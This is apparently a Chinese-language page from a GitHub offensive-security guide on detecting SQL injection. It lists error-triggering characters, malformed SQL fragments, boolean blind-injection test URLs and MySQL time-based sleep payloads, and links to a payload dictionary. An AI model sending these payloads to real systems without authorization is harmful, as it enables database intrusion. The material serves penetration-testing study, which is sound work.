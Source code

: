# SQL注入漏洞

## 1.注入点检测

（1）报错信息

特殊字符：

```bash
'
%27
"
%22
#
%23
;
%3B
)
||
*
--
/* */
&apos;
```

SQL语句：

```bash
'SELECT  //不成对的引号
1' OR '1' = '2  //逻辑错误
'1' = 1 --  //类型错误
'1' AND ASCII('a') = '97 --  //函数错误
'1' OR ('x'='x'  //操作符错误
```
(2)Boolean盲注

盲注检测：

|描述|查询语句|
|----|----|
|逻辑运算|page.php?id=1 or 1=1 -- 返回为true<br>page.php?id=1' or 1=1 -- 返回为true<br>page.php?id=1" or 1=1 -- 返回为true<br>page.php?id=1 and 1=2 -- 返回为false|
|数学运算|page.php?id=1/1 -- 返回为true<br>page.php?id=1/0 -- 返回为false<br>page.php?id=1/abs(1) -- 返回为true<br>page.php?id=1/abf(1) -- 返回为false|

逻辑运算字典：

[sql_logic](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/sqli-logic.txt)

(3)时间盲注

MySQL：

```sql
1' + sleep(5)
1' and sleep(5)
1' && sleep(5)
1' | sleep(5)
```
